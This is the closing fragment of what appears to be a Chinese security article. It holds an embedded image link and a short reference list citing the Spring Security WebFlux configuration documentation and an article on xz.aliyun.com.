[](https://xzfile.aliyuncs.com/media/upload/picture/20231101231341-3d9303fe-78c9-1.png)

## 参考

[https://docs.spring.io/spring-security/reference/reactive/configuration/webflux.html](https://docs.spring.io/spring-security/reference/reactive/configuration/webflux.html)

[https://xz.aliyun.com/t/11331#toc-4](https://xz.aliyun.com/t/11331#toc-4)
